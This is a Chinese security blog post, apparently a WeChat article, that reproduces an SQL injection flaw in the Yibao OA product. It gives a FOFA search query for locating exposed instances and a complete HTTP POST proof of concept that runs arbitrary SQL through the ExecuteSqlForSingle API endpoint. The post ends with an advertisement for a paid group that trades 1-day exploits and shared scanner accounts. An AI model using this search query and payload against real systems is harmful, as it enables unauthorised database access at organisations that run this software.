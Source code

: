 #  【漏洞复现】易宝OA ExecuteSqlForSingle SQL注入漏洞   
WK安全  WK安全   2023-11-29 00:01  
  
```
免责声明
  由于传播、利用WK安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负
责，WK安全及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除
并致歉。谢谢！
```  
  
| 0x01 产品介绍  
  
      
易宝OA是中国软件服务及行业解决方案提供商，专注于提供个性化和专业化软件开发及创新技术研发服务，拥有软件服务、易宝智能、易宝设计、易宝教育、易宝产业等五大主营业务，涉及新零售、金融、政务等领域。  
  
| 0x02 影响版本  
```
易宝OA
```  
  
| 0x03 语法特征  
```
app:"易宝 OA"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1qkgPBQslIFHsNicmGocofTUKpGF7Ho3iaIJNhwzXXAUbJWlHWucZRwEGqQ0b6FMNkGI847vDU4rSE5xtWmrcZgw/640?wx_fmt=png&from=appmsg "")  
  
| 0x04 漏洞复现  
  
页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1qkgPBQslIFHsNicmGocofTUKpGF7Ho3iaFJF6oTknZwmd1zrIYS1JH4m8Hkz3HdMRaxdU6AeXWFZic5e1wDPdXpA/640?wx_fmt=png&from=appmsg "")  
  
POC  
```
POST /api/system/ExecuteSqlForSingle HTTP/1.1
Host: xxxx
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Length: 103

token=zxh&sql=select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)
&strParameters
```  
  
**|**  
**知识星球的介绍**  
  
不好意思，兄弟们，这里给湘安无事星球打个广告，不喜欢的可以直接滑走哦。  
  
1.群主为什么要建知识星球？  
```
很简单为了恰饭哈哈哈，然后也是为了建立一个圈子进行交流学习和共享资源嘛
相应的也收取费用嘛，毕竟维持星球也需要精力
```  
  
2.知识星球有哪些资源？  
```
群里面联系群主是可以要一些免费的学习资料的，因为群里面大部分是大学生嘛
大学生不就是喜欢白嫖，所以大家会共享一些资料
没有的群主wk也有,wk除了不会pc,其他都能嫖hhh
```  
  
一些实战报告，截的部分  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62RcLSRwZcEVNtIZkzdBc6oFT9jYPTSicI2dfuibvXY2XkqPEcmFtWPIxw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62RB3woW60WbOxWFuYycTic8ltSWVvXRCHcpLIfl3tnaUI4rArq2YTPhw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62TzMgcj8bnia1VDlFiaE5HHo8DGBibrfGYLJibnlEZ8MaJD1H5bNjUM4WiaA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
一些1day的poc,这些也就是信息差，不想找可以让wk帮你们嫖,群主也会经常发  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62u6rIc801vEhGFYFsVtzrSKobQpybfzZvtmwOUjLStelMbJ5yg3Ouow/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62oKLUAWOIwkcYbWfmE1JNBma2h9sEsJz7T6SRBOqz72gz9Cy0K7rlyQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62vibbG0Nu1NhibkJcshXVDrklAYuXlTIK7Frkia05hmQZRAXEgpxF0MHOg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
一些共享的资源  
```
1.刀客源码的会员
2.fofa 360高级会员
3.专属漏洞库
5.专属内部it免费课程
6.不定期直播分享（星球有录屏）
```  
  
技术交流可加下方wx  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIF4licGevYiaCjMeNIKCDprSg7xdfCRBrV7VyavUGJcCN8pDLT5RD5dibuicQ0mURYGVLxvONKrpYewzQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIHjS8eDgIsoh0FvaTB4Nn2fSBib61prlLqrEFW5XukrNYtbKSXpk1ZiaWSQHM9GLYV3VUYbPtQXqTGQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIFRZnLwGGOc9l1PaxoiaZZcCgnC8CZwtgb2bcgt1TRUeRLanZ47thAXXgUUaXog9JPpD09wtwibh9IQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIFRZnLwGGOc9l1PaxoiaZZcCSxoSdNQIUbpEgjlRNTITqP7ial5dIOLWFh6ibJyicQwVG2GDzoLQY3vpA/640?wx_fmt=jpeg "")  
  
